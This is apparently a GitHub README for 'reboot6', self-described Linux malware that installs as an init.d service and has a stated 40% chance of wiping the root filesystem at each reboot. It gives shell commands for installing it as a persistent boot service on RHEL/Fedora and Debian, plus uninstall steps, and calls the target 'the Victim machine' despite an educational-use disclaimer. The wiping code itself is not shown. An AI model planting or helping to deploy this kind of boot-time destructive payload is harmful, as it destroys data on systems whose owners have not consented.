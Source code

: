# reboot6 #

An init.d reboot virus that's inspired from Russian Roulette Linux.
This is a post exploit/virus that needs root privs and full access on the host/remote host in order for this to work.
What it does: creates an init process that has a 40% chance of wiping the root ( / ) of the file system durring the bootup (reboot) process.
Why 40%? Why not 100%? Because I'm not a evil person. And this gives the Victim machine the possibilty to remove the exploit/virus.
Like Russian Roulette (Linux), there is a 1 in 6 chance you lose. 

### This software is intended only for educational purposes. USE AT YOUR OWN RISK. ###
### The contributors cannot be held liable for damage or loss of data resulting from the use of this repository's code. ###

# To INSTALL the script:
### ALL SYSTEMS ###
```sh
cp reboot6 /etc/init.d/
```
### RHEL and Fedora ###
```sh
chkconfig --add /etc/init.d/reboot6
```
```sh
chkconfig --level 125 /etc/init.d/reboot6 on
```
```sh
ln -s /etc/init.d/reboot6 /etc/rc2.d/S35reboot6
```
### Debian and Deriatives ###
```sh
update-rc.d reboot6 defaults
```
# To UNINSTALL the script:
### RHEL and Fedora ###
```sh
chkconfig --level 125 /etc/init.d/reboot6 off
```
```sh
chkconfig --del /etc/init.d/reboot6
```
### Debian and Deriatives ###
```sh
update-rc.d reboot6 disable
```
```sh
update-rc.d reboot6 remove
```
### ALL SYSTEMS ###
```sh
rm /etc/init.d/reboot6
```
